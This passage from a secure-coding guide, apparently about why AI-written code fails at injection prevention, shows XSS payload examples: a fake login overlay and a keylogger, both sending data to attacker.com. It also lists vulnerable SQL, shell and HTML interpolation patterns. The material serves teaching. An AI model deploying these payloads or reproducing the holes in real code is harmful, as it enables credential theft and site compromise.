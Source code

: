 ```javascript
`
// Steals session data from other users viewing comments
```

**Attack 2: Credential Harvesting**
```javascript
comment.content = `
<script>
  document.body.innerHTML += '<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999"><form action="https://attacker.com/phish"><h2>Session Expired - Please Login</h2><input name="username"><input type="password" name="password"><button>Login</button></form></div>';
</script>
`
// Shows fake login form, steals credentials
```

**Attack 3: Keylogger Injection**
```javascript
comment.content = `
<script>
  document.addEventListener('keydown', e => {
    fetch('https://attacker.com/keys?key=' + e.key);
  });
</script>
`
// Logs every keystroke, sends to attacker
```

### Real-World XSS Consequences

**British Airways (2018):**
- XSS vulnerability allowed attackers to inject payment card harvesting script
- **380,000 transactions** compromised
- **£20 million fine** under GDPR

**MySpace Samy Worm (2005):**
- XSS vulnerability allowed self-propagating script
- Added attacker as friend to **over 1 million profiles in 20 hours**
- While mostly harmless (just adding friends), demonstrated potential
- Same technique could have stolen credentials or payment data

## Summary: Why AI Fails at Injection Prevention

### Common Patterns Across All Injection Types

**1. Direct String Interpolation:**
- SQL: `f"SELECT * FROM users WHERE id = {user_id}"`
- Shell: `exec(f"convert {filename}")`
- HTML: `html += `<div>${user_content}</div>``

**2. Missing Input Validation:**
- No type checking
- No format validation
- No length limits
- No character whitelisting

